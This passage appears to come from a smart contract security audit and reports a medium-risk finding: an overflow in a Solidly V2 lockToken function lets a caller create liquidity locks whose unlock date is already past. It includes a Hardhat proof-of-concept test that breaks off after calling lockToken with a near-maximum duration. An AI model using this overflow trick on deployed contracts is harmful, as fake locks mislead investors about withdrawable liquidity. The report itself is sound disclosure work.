 **Lead Auditors**

[Giovanni Di Siena](https://twitter.com/giovannidisiena)

**Assisting Auditors**

[Hans](https://twitter.com/hansfriese)


---

# Findings
## Medium Risk


### Locks can be created with expiry in the past

**Description:** Due to a silent overflow in [`SolidityV2ERC42069::lockToken`](https://github.com/SolidlyLabs/v2-core/blob/757b18ad05780d2af22018b0c2c9d59422dc59d3/contracts/SolidlyV2-memecore.sol#L387), a sufficiently large duration will cause the unlock date to be in the past. This could allow the caller to create a fraudulent lock, advertising that they have locked for the maximum duration but which can actually be withdrawn immediately. However, the impact is somewhat limited as this will be visible to anyone who calls [`SolidityV2ERC42069::getLock(s)`](https://github.com/SolidlyLabs/v2-core/blob/757b18ad05780d2af22018b0c2c9d59422dc59d3/contracts/SolidlyV2-memecore.sol#L459-L471) with the owner's address (perhaps in a UI). From the attacker's perspective, the extension functionality could ideally be used to wrap around at will, hiding this malicious intent; however, this is not possible due to the checked math revert when incrementing the date.

**Impact:** This bug has a high likelihood of being abused with a more limited impact; therefore, it is categorized as a medium-severity finding.

**Proof of Concept:** Append this test to `MultiTest.js`:
```javascript
it("lock can be created in the past", async function () {
  const { user1, test0, test1, router, pair } = await loadFixture(deploySolidlyV2Fixture);

  let token0 = test0;
  let token1 = test1;

  // Approve tokens for liquidity provision
  await token0.connect(user1).approve(router.address, ethers.constants.MaxUint256);
  await token1.connect(user1).approve(router.address, ethers.constants.MaxUint256);

  // Provide liquidity
  await router.connect(user1).addLiquidity(
    token0.address,
    token1.address,
    ethers.utils.parseUnits("100", 18),
    ethers.utils.parseUnits("100", 18),
    0,
    0,
    user1.address,
    ethers.constants.MaxUint256
  );

  const liquidityBalance = await pair.balanceOf(user1.address);

  let blockTimestamp = (await ethers.provider.getBlock('latest')).timestamp;

  let maxUint128 = ethers.BigNumber.from("340282366920938463463374607431768211455");

  // Lock LP tokens
  await pair.connect(user1).lockToken(user1.address, liquidityBalance, maxUint128.sub(blockTimestamp));

```
